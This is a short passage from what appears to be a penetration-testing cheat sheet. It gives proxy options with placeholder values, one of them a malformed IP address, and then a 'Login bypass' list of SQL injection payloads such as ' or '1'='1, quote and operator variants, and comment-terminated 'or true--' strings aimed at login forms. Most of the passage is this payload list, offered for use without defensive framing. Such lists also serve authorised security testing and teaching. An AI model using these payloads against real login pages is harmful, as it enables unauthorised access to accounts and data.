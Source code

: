 #### Use proxy <a id="use-proxy"></a>

```text
--proxy="http://192.2.2.2.2:1111"
```

**Proxy credencials**

```text
--proxy-cred="username:password"
```

### Login bypass <a id="login-bypass"></a>

This is the most classic, standard first test:

```text
' or '1'='1
```

Then you have:

```text
-'
' '
'&'
'^'
'*'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
"-"
" "
"&"
"^"
"*"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--
" or true--
' or true--
") or true--
') or true--
' or 'x'='x
') or ('x')=('x
')) or (('x'))=(('x
" or "x"="x
") or ("x")=("x
")) or (("x"))=(("x
```

